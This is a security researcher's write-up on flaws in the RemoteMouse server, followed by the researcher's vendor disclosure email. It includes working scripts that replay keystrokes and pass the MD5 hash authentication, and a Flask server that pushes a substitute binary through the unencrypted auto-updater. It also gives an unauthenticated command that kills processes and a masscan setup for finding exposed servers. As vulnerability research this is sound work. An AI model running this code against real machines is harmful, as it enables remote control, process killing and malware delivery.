Every time you set the password, you have to restart the RemoteMouse server in order for the change to take place. This isn't very obvious, so I feel like the UI should either tell you to restart, it should restart by itself, or it shouldn't have to restart at all, and just update the password logic. Also getting the Android App to connect to a server with a password is very janky, like 80% of the time I tried to connect it would just drop the connection, and I couldn't figure out why.

When you set a password, during the TCP handshake, the "nop" strings are replaced with a "pwd" strings. Interesting, looks like this is just to signify the app to enter a password. I set the password to `PAssword` and started inspecting the traffic again.

So a password handshake looks like this (these are hexdumps of the data field of the TCP packets)

Server -> App
```
0000   53 49 4e 20 31 35 77 69 6e 20 70 77 64 20 70 77   SIN 15win pwd pw
0010   64 20 33 30 30                                    d 300
```

App -> Server
```
0000   63 69 6e 30 33 36 31 64 38 62 65 38 34 30 37 33   cin0361d8be84073
0010   64 61 39 37 66 36 32 64 66 36 31 32 33 64 35 30   da97f62df6123d50
0020   64 31 32 38 36 65 20 32 34 30                     d1286e 240
```

Server -> App
```
0000   63 69 6e 20 20 37 73 75 63 63 65 73 73            cin  7success
```

Now if we try sending a keystroke from the phone we get this:
```
0000   62 36 30 63 66 38 62 61 37 65 35 64 61 62 34 62   b60cf8ba7e5dab4b
0010   33 62 36 62 65 64 37 38 62 64 65 31 65 34 37 30   3b6bed78bde1e470
0020   6b 65 79 20 20 37 5b 72 61 73 5d 38 34            key  7[ras]84
```

Wait a minute... Is that an MD5 Hash in front of the plain-text single-key packet?


Let's do some work in CyberChef real quick:

 - [Detect the hashing algorithm](https://gchq.github.io/CyberChef/#recipe=Analyse_hash()&input=YjYwY2Y4YmE3ZTVkYWI0YjNiNmJlZDc4YmRlMWU0NzA)
 - [Hash our password (`PAssword`) with that hashing algorithm](https://gchq.github.io/CyberChef/#recipe=MD5()&input=UEFzc3dvcmQ)


Okay, so their idea of encrypting the communications _isn't_ actually encrypted a packet, it's prepending the MD5 hash of the password to the beginning of the packet. Let's make sure this works using scapy:

```python
>>> time.sleep(5); send(IP(dst="192.168.86.195")/UDP(dport=1978)/Raw(load="b60cf8ba7e5dab4b3b6bed78bde1e470key  7[ras]87"))
.
Sent 1 packets.
```

Lo and behold, a single 'b' was typed into my computer. I tried changing the hash to see what would happen, but that didn't work unfortunately. So if the traffic is encrypted, all we really have to do is either bruteforce the hash, or sniff out someone else's traffic. And to determine if a server is using a password, we can simply open up a TCP connection with it and see the response:

```bash
$ telnet 192.168.86.195 1978
Trying 192.168.86.195...
Connected to 192.168.86.195.
Escape character is '^]'.
SIN 15win pwd pwd 300^CConnection closed by foreign host.
```

Cool, so the `pwd pwd` substring appears when there is a password, otherwise it's `nop nop`. But let's see if there's anyway we can get past the authentication. Oddly enough, I'm having a hard time finding the encryption routine in the binary.

Finally after much more searching, I found the logic that handles password-protected sessions. It's contained in `RemoteMouse.exe` in `Form1.b(object)`. The binary checks if `this.i` is set to true, and if so, sends the `pwd pwd 300` string, otherwise it sends the `nop nop 300` string.

Then it captures the three bytes of the next TCP transmission and checks if they equal `cin`. If they do, it uses the NEXT three bytes as the length to pull the next chunk of data, which is finally the hash that is sent over as authentication. The code snippet in question is below:

```C#
if (@string == "cin")
{
    byte[] dataFromSocket = Form1.GetDataFromSocket(tcpClient, 3);
    if (dataFromSocket == null)
    {
        goto Block_7;
    }
    int len = Convert.ToInt32(Encoding.ASCII.GetString(dataFromSocket).Trim());
    byte[] dataFromSocket2 = Form1.GetDataFromSocket(tcpClient, len);
    if (dataFromSocket2 == null)
    {
        goto Block_8;
    }
    string[] array3 = Encoding.ASCII.GetString(dataFromSocket2).Split(new char[]
    {
        ' '
    });
    string text3;
    if (Form_Options.MD5String(this.ReverseD(this.j)) == array3[0] && this.i)
    {
        flag = true;
        text3 = "cin  7success";
    }
    else
    {
        flag = false;
        text3 = "cin  4fail";
    }
    byte[] bytes2 = Encoding.ASCII.GetBytes(text3);
    try
    {
        tcpClient.Client.Send(bytes2, bytes2.Length, SocketFlags.None);
        continue;
    }
    catch (Exception)
    {
        continue;
    }
}
```

You can see that if the hashes match, it sets the `flag` variable to true, which all the other functions check for before continuing any business logic **except** where the next command chunk is `cur` or `hb1`. The `cur` logic, below, only modifies the `flag2` variable which is later looked at by the `mos` logic.

```C#
else if (@string == "cur")
{
    int num10 = 0;
    byte[] threeByteData7 = Form1.GetThreeByteData(tcpClient, out num10);
    if (threeByteData7 == null)
    {
        goto Block_34;
    }
    flag2 = (Encoding.ASCII.GetString(threeByteData7) == "xl");
}
```


The `hb1` function seems to just send the characters back to the client? Odd, but not sure what it's used for.

```C#
else if (@string == "hb1")
{
    byte[] bytes3 = Encoding.ASCII.GetBytes("hb1");
    tcpClient.Client.Send(bytes3);
}
```

Let's look more closely at the `cin` logic to see if we can bypass the authentication, the `this.i` signifies that encryption is in fact, set. How is `this.i` determined? It's in the `Form1.g(object, EventArgs)` function, which is the entry-point for the software. If the password exists in the UserAppDataRegistry, then the server is considering itself as encrypted. The UserAppDataRegistry just points to the `CurrentUser\Software\CompanyName\ProductName\ProductVersion` according to the [documentation](https://docs.microsoft.com/en-us/dotnet/api/system.windows.forms.application.userappdataregistry?view=net-5.0). And sure enough, if we check, we see our password (MD5 hash of `123456`).



```C#
try
{
    this.j = Application.UserAppDataRegistry.GetValue("Password").ToString();
}
catch
{
    this.i = false;
    this.j = "";
}
if (this.j.Trim() == "")
{
    this.i = false;
    this.j = "";
}
else
{
    this.i = true;
}
```


Anyway, back to the `if (@string == "cin")` logic, the software splits a packet into a few different chunks. Given the client sending a message, i.e. `cin0361d8be84073da97f62df6123d50d1286e 240`, it gets split up into:

 1. `cin` - Signifies the client is sending in data
 2. `036` - The next three bytes are the ASCII representation of the number of bytes to read next
 3. `1d8be84073da97f62df6123d50d1286e` - Some sort of hash
 4. `240` - Never actually used

Let's look at the conditional that actually decides the pass/fail if the password is correct: `if (Form_Options.MD5String(this.ReverseD(this.j)) == array3[0] && this.i)`). So it checks `this.i` to make sure encryption is set in the first place, then it takes the hash of the password stored in the registry, and reverses it. Passes the reversed hash into a custom MD5String function:

```C#
public static string MD5String(string str)
{
    byte[] array = MD5.Create().ComputeHash(Encoding.UTF8.GetBytes(str));
    StringBuilder stringBuilder = new StringBuilder();
    for (int i = 0; i < array.Length; i++)
    {
        stringBuilder.Append(array[i].ToString("x2"));
    }
    return stringBuilder.ToString();
}
```

This function takes in the reversed MD5 hash, hashes _that_ and then takes those bytes and converts them to ASCII as their hex representation, i.e. byte `0x7F` will turn into `7F`. To simplify this entire process, here's a python snippet:

```python
import hashlib

pwd = getRegValue(r"Computer\HKEY_CURRENT_USER\SOFTWARE\remotemouse.net\Remote Mouse\3.0.1.5\Password")
pwd = pwd[::-1] # reverse the string
pwd = hashlib.md5(pwd.encode()).hexdigest()
```

And this ends up working when we put it all together to send our own password over:

```python
import hashlib
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))

pwd = input()
pwd = hashlib.md5(pwd.encode()).hexdigest()
pwd = pwd[::-1] # reverse the string
pwd = hashlib.md5(pwd.encode()).hexdigest()
msg = 'cin036'+pwd+' 240'

print('>', s.recv(1024).decode())
s.send(msg.encode())
print('<', msg)
print('>', s.recv(1024).decode())
```

```bash
$ echo '123456' | python3 test/test.py 192.168.86.195 1978
> SIN 15win pwd pwd 300
< cin03674ce4a21f159e81638334cbe243cd2cf 240
> cin  7success
```

Unfortunately, to date, I don't see how the authentication/password check can be bypassed without first sniffing someone's password out from the air (either via the TCP handshake, or more importantly, via the UDP command packets).

## AutoUpdate 

While I was looking for the encryption algorithm, I found the autoupdating subroutine. It looks like updates are checked through this instruction: `AutoUpdater.Start("http://www.remotemouse.net/autoupdater/AutoUpdater.NET_AppCast_RM.xml", null);` But wait a minute, that's HTTP, **not** HTTPS, so that means an attacker could machine-in-middle that URL and potentially deploy a malicious executable to the target machine. 

To test this out, I'll change the `C:\Windows\System32\drivers\etc\hosts` file to point `remotemouse.net` to my Kali VM, then I'll run a Python Flask web server with the following files `/downloads/RemoteMouse.exe` and `/autoupdater/AutoUpdater.NET_AppCast_RM.xml`. Of course, I'll be manually building/creating these files to host my own "malicious" content. The easiest way I can think of to make an executable do something that's noticeable when it executes is a `MessageBox` in Windows. So I created a simple message to pop up and let me know the binary was executed:

```C
#include <Windows.h>
#include <stdio.h>


int main(void) {
    SYSTEMTIME st, lt;
    GetSystemTime(&st);
    GetLocalTime(&lt);

    char* msgboxTitle = "Custom RemoteMouse.exe Execution";
    char msgboxMsg[1024];
    _snprintf_s(msgboxMsg, 1024, 1024, "RemoteMouse.exe executed at %02d/%02d/%02d %02d:%02d:%02d", lt.wMonth, lt.wDay, lt.wYear, lt.wHour, lt.wMinute, lt.wSecond);
    int msgboxID = MessageBoxA(
        NULL,
        msgboxMsg,
        msgboxTitle,
        MB_ICONEXCLAMATION
    );
	return 0;
}
```

and my XML file is only slightly modified. I changed the version to be one minor step higher than what I am currently at:

```xml
<item>
    <title>New version 3.0.1.6 is available for Remote Mouse</title>
    <version>3.0.1.6</version>
    <url>http://www.remotemouse.net/downloads/RemoteMouse.exe</url>
    <changelog>http://www.remotemouse.net/autoupdater/releasenotes_rm.html</changelog>
</item>
```

Then to spin up the Python Flask web server, I only need a few endpoints:

```python
import flask
app = flask.Flask(__name__)

@app.route('/downloads/RemoteMouse.exe')
def exe():
    return flask.send_file('RemoteMouse.exe')

@app.route('/autoupdater/AutoUpdater.NET_AppCast_RM.xml')
def xml():
    return flask.send_file('AutoUpdater.NET_AppCast_RM.xml')

@app.route('/autoupdater/releasenotes_rm.html')
def changelog():
    return '<h1>There was a security vulnerability in the current version, update as soon as possible</h1>'

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

With all of this up and running, let's boot up the server again. Nothing popped up, but if you do a manual update check, the new version comes up. It also contains our scary changelog and custom version number. You can still skip, cancel the update, and unfortunately, when I actually click "Update", it fails to connect to the server. 



Let's up the version number to something higher and see if we can get the server to pop up an update dialog on start. I tried increasing the major number to `3.2.0.0` and we get a pop up this time on boot. Still the update is skipable...


Let's investigate the binary to see what's going on. Turns out the AutoUpdate functionality uses [AutoUpdater.Net](https://github.com/ravibpatel/AutoUpdater.NET) to parse the XML file that is retrieved. So the function call to `AutoUpdater.Start` is actually calling this library, and this library takes it from here. One line in the README stood out to me, it's describing the required/optional fields in the XML file describing the update when I saw this:

> mandatory (Optional): You can set this to true if you don't want user to skip this version. This will ignore Remind Later and Skip options and hide both Skip and Remind Later button on update dialog.

So if we set the mandatory field in the XML file we can force a user to update? Or at least make it scary enough that they do so? I updated the XML file to:

```xml
<item>
    <title>New version 3.2.0.0 is available for Remote Mouse</title>
    <version>3.2.0.0</version>
    <url>http://www.remotemouse.net/downloads/RemoteMouse.exe</url>
    <changelog>http://www.remotemouse.net/autoupdater/releasenotes_rm.html</changelog>
    <mandatory>true</mandatory>
</item>
```

And rebooted the server to see this:



So we can make it pop up with a mandatory update! Let's see if we can succesfully serve the binary, as well. I think the AutoUpdate.Net library might be a little smarter than the RemoteMouse binary, and force an HTTPS connection, so let's spin up an Nginx reverse proxy and redirect 443 traffic to 80. I know this won't successfully MITM someone, because of SSL errors (unless the developers explicitly ignore them...), but let's see what happens. Here are two snippets from a [Gist](https://gist.github.com/jessedearing/2351836) to do this quickly:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:1024  -keyout /etc/nginx/ssl/myssl.key  -out /etc/nginx/ssl/myssl.crt
```

```
server {
    listen               443 ssl;
    ssl_certificate      ssl/myssl.crt;
    ssl_certificate_key  ssl/myssl.key;
    server_name remotemouse.net;
    location / {
      proxy_set_header        Host $host;
      proxy_set_header        X-Real-IP $remote_addr;
      proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
      proxy_set_header        X-Forwarded-Proto $scheme;

      proxy_pass          http://127.0.0.1:80;
    }
}
```



Let's reboot the server again, and... **SUCCESS**! The auto-updater worked and executed a binary that we served! Though, that's a little odd, the nginx server logs don't show any connections. To double-check, I turned off the nginx reverse-proxy, and ran it again, and it worked. This means we can succesfully MITM a target and serve them a malicious, custom exectuable with **no** HTTPS/TLS concerns.

All the necessary code/files to replicate are stored in `mitm/`.

## UAC Passthru

I wanted to see if you could pass through and click "Ok" on a UAC pop-up. This isn't anything gamechanging, but I thought it'd be pretty cool to see it work, especially if the malicious binary you served via the AutoUpdate feature requires elevated permissions. It would be hard to demonstrate without me taking a video of my phone and computer at the same time (and that could easily be spoofed), but it does in fact work. Your keyboard and mouse controls still work when the UAC popup happens.

## Icons

TODO: The App can pull the Icons from the taskbar as a quick hotbar for the user. These must be transmitted over the wire, so I'd like to see how that works and download them as part of `mousetrap.py`.

I noticed in the Android App, one of the functionalities shows the icons you have on your taskbar (including the drawer). I decided to do another packet capture while making the request on my phone and saw that the App sends a TCP packet with the data `act` to the server, and the server dumps the file name, location, and PNG logo of the everything on the task bar. 

Very curious to see if this is encrypted/password protected when the password is set. To check, I'll telnet to make sure the password is required (will dump `pwd pwd`), and then send the `act` to port 1979:



This shows you can view anyone's taskbar with no password whatsoever, even if the password is set on the server. This makes me think that only services provided by the server on port 1978 is password "protected", if a password is set.

To better understand this workflow, let's go ahead and find the logic inside the RemoteMouse binary. This actually took me about an hour of digging around, mainly because I'm not 100% familiar with dnSpy's string search functionality. Anyway, I located the `"act"` string in the `q.a(object)` function inside `RemoteMouse.exe`. We can see there's actually quite a few commands that you can send:

 - `opn` - I'm guessing this opens a program
 - `act` - This retrieves the logos and taskbar information
 - `max` - Maximize a program's window
 - `min` - Minimize a program's window
 - `clo` - Close a program's window

Let's look at `clo`'s logic:

```C#

if (!(@string == "clo"))
{
    continue;
}
goto IL_1EB;

// ...snip...

IL_1EB:
    byte[] array6 = new byte[3];
    num = socket.Receive(array6, 3, SocketFlags.None);
    int num4 = int.Parse(Encoding.UTF8.GetString(array6));
    byte[] array7 = new byte[num4];
    if (num > 0)
    {
        num = socket.Receive(array7, num4, SocketFlags.None);
    }
    string fileNameWithoutExtension = Path.GetFileNameWithoutExtension(Encoding.UTF8.GetString(array7));
    if (!fileNameWithoutExtension.ToLower().Equals("explorer"))
    {
        try
        {
            Process[] processesByName = Process.GetProcessesByName(fileNameWithoutExtension);
            for (int i = 0; i < processesByName.Length; i++)
            {
                processesByName[i].Kill();
            }
        }
        catch
        {
        }
        continue;
    }
    continue;
```

This means, by sending a message to port 1979, say something like 

```bash
elnet 192.168.86.195 1979
Trying 192.168.86.195...
Connected to 192.168.86.195.
Escape character is '^]'.
clo006chrome
```

You can force a process to die without a user every realizing. No mouse movement, no keyboard input, nothing. All of this with NO authentication. Let's implement these functions in our exploit code.

Let's start with the `act` subroutine. In the code, this is called via the `q.b(socket)`, which turns into a more complicated function:

```C#
private static void b(Socket A_0)
{
    byte[] array = new byte[1295];
    foreach (Class_AppInfo class_AppInfo in Class_ProgramInfo.apps.Values.ToList<Class_AppInfo>())
    {
        if (class_AppInfo.ico != null)
        {
            MemoryStream memoryStream = new MemoryStream();
            class_AppInfo.ico.ToBitmap().Save(memoryStream, ImageFormat.Png);
            class_AppInfo.icoLength = (ulong)memoryStream.Length;
            Array.Clear(array, 0, array.Length);
            MemoryStream memoryStream2 = new MemoryStream();
            memoryStream2.Write(class_AppInfo.appName, 0, class_AppInfo.appName.Length);
            memoryStream2.Write(class_AppInfo.appPath, 0, class_AppInfo.appPath.Length);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.appStatus), 0, 1);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.apphWnd), 0, 4);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.intPre2), 0, 4);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.bPre1), 0, 1);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.bPre2), 0, 1);
            memoryStream2.Write(BitConverter.GetBytes(class_AppInfo.icoLength), 0, 4);
            memoryStream2.Position = 0L;
            memoryStream2.Read(array, 0, class_AppInfo.appName.Length);
            memoryStream2.Read(array, 256, class_AppInfo.appPath.Length);
            memoryStream2.Read(array, 1280, 1);
            memoryStream2.Read(array, 1281, 4);
            memoryStream2.Read(array, 1285, 4);
            memoryStream2.Read(array, 1289, 1);
            memoryStream2.Read(array, 1290, 1);
            memoryStream2.Read(array, 1291, 4);
            memoryStream2.Close();
            byte[] buffer = new byte[3];
            buffer = Encoding.UTF8.GetBytes("dok");
            byte[] buffer2 = new byte[4];
            buffer2 = BitConverter.GetBytes(array.Length);
            try
            {
                A_0.Send(buffer);
                A_0.Send(buffer2);
                A_0.Send(array);
                A_0.Send(memoryStream.ToArray());
            }
            catch (Exception)
            {
                A_0.Close();
                A_0 = null;
                break;
            }
            memoryStream.Close();
            memoryStream = null;
        }
    }
}
```

Let's start digesting this... It first it creates an array, size 1295 bytes long, this is will the final payload will be stored. Then itcreates the PNG of the application's icon, stores it into a `memorystream` and calculates the icon's length. Once the icon is dealt with, a separate `memorystream` is created and information is put into it. Finally, information from the second `memorystream` is put into the array that was created earlier. 

Now that all the buffers are created, the following is sent back to the client:

1. `dok` (just a hard-coded string)
2. Length of the next array
3. Array containing all the application information (including the length of the icon)
4. Icon

So we can pull the buffer lengths from the data it ends up sending:

```python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.86.195", 1979))


s.send(b'act')

dok = s.recv(3)
print("dok", dok)

buff_len = int.from_bytes(s.recv(4), 'little')
print("buff_len", buff_len)

buff = s.recv(buff_len)
print("buff", buff[:256])

icon_len = int.from_bytes(buff[-4:], 'little')
print("icon_len", icon_len)

icon = s.recv(icon_len)
print("icon", icon[:4])
```
```bash
$ python3 test/test.py
dok b'dok'
buff_len 1295
buff b'dnSpy v6.1.8 (32-bit, .NET, Administrator, Debugging)\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
icon_len 280
icon b'\x89PNG'
```

Nice! The server actually streams all the data to you, one at a time, so I just set a 0.5 second timeout on the socket and continuously read the data into a `dict` to store everything, then I dumped it out into a `manifest.json` and `PNG` files. To use this, just run `python3 mousetrap.py --dump-apps`.

Let's implement the rest of the functions that are exposed on this service (`opn`, `clo`, `min`, `max`). `clo` is actually insanely easy, you just send the command followed by how many bytes the name of the process is, and the process that you want to close. This was demonstrated above, and is implemented with `--close-process chrome.exe`, or whatever process you want.

## Market Penetration

I started to get curious on how many servers there were out there. The Android play store reports "10,000,000+" downloads of the app, and that probably wouldn't be a 1:1 correlation to a server, plus people eventually uninstall the server from their computer. All of that, _plus_ to even target a remote host they have to be routable to `TCP/UDP` 1978/1979. But it would still be cool to scan the internet real quick and see who is out there. Luckily for us, the service on port 1978 broadcasts a banner.

At first, I was writing an Nmap script to scan a subnet, and match the banner, but I don't think Nmap would be particularly good at scanning the entire internet. In fact, that's why [massscan](https://github.com/robertdavidgraham/masscan) was invented. However, looking at masscan, it's kind of hard to build a custom protocol analyzer, so instead, let's write an Nmap service script first.

Writing an Nmap service/banner match is actually pretty straight-forward given their [guide](https://nmap.org/book/vscan-fileformat.html). The documented probe file is in the `scanning/` dir, as well as some example usage.

So right now, we could use masscan to see all open 1978 ports on TCP, then pipe that to Nmap to do the actual service scanning. That's probably insanely fast, and faster than I'll ever need, but I want _faster_. 

Let's take a look again at writing a masscan protocol analyzer... I wrote some more detailed documentation in the `scanning/` dir, but the tl;dr is that I wrote a protocol analyzer for masscan that can tell if:

- a computer is running RemoteMouse
- a computer is running a password-protected version of RemoteMouse
- a computer is MacOS or Windows

To run it (after building the patched version of masscan, again docs in `scanning/`):

```bash
$ sudo ./bin/masscan --banners --adapter-port 61000 --ports 1978 192.168.86.195                                  
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-02-11 01:52:01 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [1 port/host]
Discovered open port 1978/tcp on 192.168.86.195                                
Banner on port 1978/tcp on 192.168.86.195: [remotemouse] SIN 15win nop nop 300 
Banner on port 1978/tcp on 192.168.86.195: [remotemouse.password_protected] FALSE
Banner on port 1978/tcp on 192.168.86.195: [remotemouse.os] Windows            

```


## Disclosure

On 02/06/2021 I sent an email to `info@remotemouse.net`:

> RemoteMouse Team,
>
>I'm a security researcher that has identified vulnerabilities in your application protocol for RemoteMouse. After analyzing the packets sent from the RemoteMouse Android Application to the Windows RemoteMouse service, I noticed three critical issues:
>
>  - CWE-836: Use of Password Hash Instead of Password for Authentication
> 
>     The client software sends the hash of the password a user enters to the server in order to authenticate. This can cause the hash of the user's passwords to be intercepted and looked up in a rainbow table, resulting in the user's password being revealed.
> - CWE-306: Missing Authentication for Critical Function and CWE-319: Cleartext Transmission of Sensitive Information
> 
>     Even with a "password" set, the server and client do not encrypt communications, this allows a passive observer to see what activity the user is sending to the server.
> - CWE-294: Authentication Bypass by Capture-replay
>
>     The client and server do not use cryptographic nonces in communications, this allows any passive observer to replay the commands sent, even when the password is set on the server side. 
>
> Per standard vulnerability disclosure practices, please respond within 90 days of today (Friday May 7, 2021). If you have any questions on the details of the vulnerabilities, or you would like any assistance, please do not hesitate to reach out to me via email (me@axelp.io).
>
> Thank you,
>
>  Axel Persinger.

I never received a response from the vendor. I have also reached out to Microsoft, Apple, and Google (Android Play Store) to see if they would remove the application, or warn users about it, but never heard a response from them either. On 05/05/2021 the details of the vulnerability, the exploit code, and this writeup will go public, albeit a few days early. 


### Special Thanks

Special thanks to [Matt Matteis](https://www.linkedin.com/in/matthew-matteis-616a33bb/) for reviewing this report and guiding me through the disclosure process.

Another special thanks to [Kieran London](https://github.com/kieranlondon), without him I would have never figured out a bug in my mapping of the targets in the Analysis section.
